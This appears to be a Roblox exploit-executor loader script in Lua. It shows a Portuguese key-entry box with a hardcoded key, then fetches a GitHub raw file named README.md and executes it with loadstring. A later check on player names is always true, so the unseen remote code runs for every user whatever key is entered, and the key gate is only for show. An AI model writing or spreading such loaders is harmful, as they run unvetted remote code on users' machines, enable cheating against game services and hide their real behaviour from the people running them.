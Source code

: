 local screenGui = Instance.new("ScreenGui")
screenGui.Parent = game.CoreGui

local textBox = Instance.new("TextBox")
textBox.Parent = screenGui
textBox.Position = UDim2.new(0.5, -75, 0.5, -25)
textBox.Size = UDim2.new(0, 150, 0, 50)
textBox.PlaceholderText = "Digite a chave"

local confirmButton = Instance.new("TextButton")
confirmButton.Parent = screenGui
confirmButton.Position = UDim2.new(0.5, 20, 0.5, -25)
confirmButton.Size = UDim2.new(0, 50, 0, 50)
confirmButton.Text = "confirmar"

local key = "chave23"

confirmButton.MouseButton1Click:Connect(function()
    if textBox.Text == key then
        screenGui:Destroy() 
        print("Acesso concedido!")
        loadstring(game:HttpGet(('https://raw.githubusercontent.com/Noname929798/Qthbvcgb/refs/heads/main/README.md'),true))()
    else
        print("Chave incorreta.")
    end
end)
local player = game.Players.LocalPlayer
if player.Name == "Carneassadagotoza" or "Nicollasbobo1" or "allefmito123" then
loadstring(game:HttpGet(('https://raw.githubusercontent.com/Noname929798/Qthbvcgb/refs/heads/main/README.md'),true))()
end
